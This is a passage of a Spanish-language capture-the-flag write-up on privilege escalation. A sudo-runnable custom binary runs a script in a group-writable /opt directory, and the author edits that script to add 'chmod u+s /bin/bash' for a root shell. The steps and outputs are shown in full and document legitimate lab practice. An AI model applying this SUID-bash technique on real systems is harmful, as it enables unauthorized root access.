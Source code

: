 Vemos que podemos ejecutar como `root` el binario `bash` pero en una ruta poco comun, si inspeccionamos dicho binario, estara codificado su interior, por lo que probaremos a ejecutarlo.

```shell
sudo /usr/local/bin/bash
```

Info:

```
Welcome to the bash application!
Running command...
This is the bash script running.
```

No nos da mucha informacion, pero si observamos en el directorio raiz, vemos que los permisos del `opt/` su grupo es nuestro usuario, y en su interior esta el archivo `bash.sh` que su interior es el siguiente.

```
drwxrwxr-x 1 root jenkhack 4096 Sep  1 14:57 .
```

```shell
#!/bin/bash

# This script in bash
echo "This is the bash script running."
```

Por lo que vemos efectivamente esta ejecutando este script el cual podemos modificar pero antes haciendo unas cosas, por lo que podremos escalar a `root` haciendo lo siguiente.

```shell
mv bash.sh bash.bak
cp bash.bak bash.sh
```

Y ahora si podremos editarlo.

```shell
nano bash.sh

#Dentro del nano
<RESTO_DEL_CODIGO>

chmod u+s /bin/bash
echo 'Permisos de bash cambiados correctamente.'

```

Guardamos el codigo y ahora probaremos a ejecutar de nuevo el binario.

```shell
sudo /usr/local/bin/bash
```

Info:

```
Welcome to the bash application!
Running command...
This is the bash script running.
Permisos de bash cambiados correctamente.
```
